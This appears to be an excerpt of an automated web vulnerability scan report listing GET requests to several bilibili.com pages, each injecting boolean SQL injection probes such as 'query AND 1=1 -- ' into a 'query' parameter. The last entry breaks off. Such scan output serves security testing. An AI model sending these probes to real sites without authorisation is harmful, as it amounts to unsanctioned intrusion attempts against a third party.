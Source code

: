   
  
  
* URL: [https://www.bilibili.com/topic/34.html?query=query+AND+1%3D1+--+](https://www.bilibili.com/topic/34.html?query=query+AND+1%3D1+--+)
  
  
  * Method: `GET`
  
  
  * Parameter: `query`
  
  
  * Attack: `query AND 1=1 -- `
  
  
  
  
* URL: [https://www.bilibili.com/video/av11915253/?query=query+AND+1%3D1](https://www.bilibili.com/video/av11915253/?query=query+AND+1%3D1)
  
  
  * Method: `GET`
  
  
  * Parameter: `query`
  
  
  * Attack: `query AND 1=1`
  
  
  
  
* URL: [https://www.bilibili.com/topic/58.html?query=query+AND+1%3D1+--+](https://www.bilibili.com/topic/58.html?query=query+AND+1%3D1+--+)
  
  
  * Method: `GET`
  
  
  * Parameter: `query`
  
  
  * Attack: `query AND 1=1 -- `
  
  
  
  
* URL: [https://www.bilibili.com/list/rank-21.html?query=query+AND+1%3D1+--+](https://www.bilibili.com/list/rank-21.html?query=query+AND+1%3D1+--+)
  
  
  * Method: `GET`
  
  
  * Parameter: `query`
  
  
  * Attack: `query AND 1=1 -- `
  
  
  
  
* URL: [https://www.bilibili.com/v/fashion?query=query+AND+1%3D1](https://www.bilibili.com/v/fashion?query=query+AND+1%3D1)
  
  
  * Method: `GET`
  
  
  * Parameter: `query`
  
  